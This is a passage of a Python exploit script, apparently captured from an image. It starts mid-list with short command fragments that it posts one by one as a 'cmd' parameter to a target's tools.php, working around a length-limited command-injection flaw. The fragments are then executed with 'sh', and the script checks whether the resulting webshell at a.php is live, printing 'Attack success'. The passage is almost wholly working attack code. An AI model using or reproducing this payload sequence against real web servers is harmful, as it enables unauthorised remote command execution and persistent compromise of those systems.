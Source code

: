 ```python
    '>VF\\',
    '>dF\\',
    '>X0\\',
    '>gk\\',
    '>bC\\',
    '>Zh\\',
    '>ZX\\',
    '>Ag\\',
    '>aH\\',
    '>9w\\',
    '>PD\\',
    '>S}\\',
    '>IF\\',
    '>{\\',
    '>\\$\\',
    '>ho\\',
    '>ec\\',

    'sh z',
    'sh a'
]


def writeFile(payload):
    data = {
        "cmd": payload
    }
    requests.post(url+"tools.php", data=data)


def run():
    for p in payload:
        writeFile(p.strip())
        print("[*] create " + p.strip())
        time.sleep(1)


def check():
    response = requests.get(url + "a.php")
    if response.status_code == requests.codes.ok:
        print("[*] Attack success!!!Webshell is " + url + "a.php")


def main():
    run()
    check()


if __name__ == '__main__':
    main()

```
